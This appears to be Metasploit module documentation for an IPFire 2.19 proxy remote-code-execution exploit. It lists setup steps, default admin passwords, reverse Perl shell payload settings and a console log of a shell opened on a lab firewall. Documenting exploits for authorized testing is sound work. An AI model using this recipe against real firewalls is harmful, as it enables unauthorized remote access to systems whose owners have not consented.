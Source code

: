 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.19-core100/ipfire-2.19.x86_64-full-core100.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_proxy_exec```
  4. Do: ```set password admin``` or whatever it was set to at install
  5. Do: ```set rhost 10.10.10.10```
  6. Do: ```set payload cmd/unix/reverse_perl```
  7. Do: ```set lhost 192.168.2.229```
  8. Do: ```exploit```
  9. You should get a shell.

## Options

### PASSWORD

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf > use exploit/linux/http/ipfire_proxy_exec
    msf exploit(ipfire_proxy_rce) > set password admin
    password => admin
    msf exploit(ipfire_proxy_rce) > set rhost 192.168.2.201
    rhost => 192.168.2.201
    msf exploit(ipfire_proxy_rce) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf exploit(ipfire_proxy_rce) > set verbose true
    verbose => true
    msf exploit(ipfire_proxy_rce) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(ipfire_proxy_rce) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.201:49997) at 2016-05-30 10:09:39 -0400

    id
    uid=99(nobody) gid=99(nobody) groups=99(nobody),16(dialout),23(squid)
    whoami
    nobody
  ```

